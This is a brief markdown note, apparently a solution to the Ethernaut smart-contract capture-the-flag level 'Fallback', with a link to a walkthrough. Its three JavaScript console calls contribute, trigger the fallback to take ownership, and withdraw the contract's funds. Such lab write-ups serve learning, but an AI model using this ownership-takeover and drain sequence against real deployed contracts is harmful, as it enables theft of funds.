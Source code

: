 # Day 1 - Fallback

Abusing erroneous logic between contract functions and fallback function.

```js
await contract.contribute({ value: 1234 });
await contract.sendTransaction({ from: player, value: 1234 });
await contract.withdraw();
```

- [reference](https://hackernoon.com/ethernaut-lvl-1-walkthrough-how-to-abuse-the-fallback-function-118057b68b56)
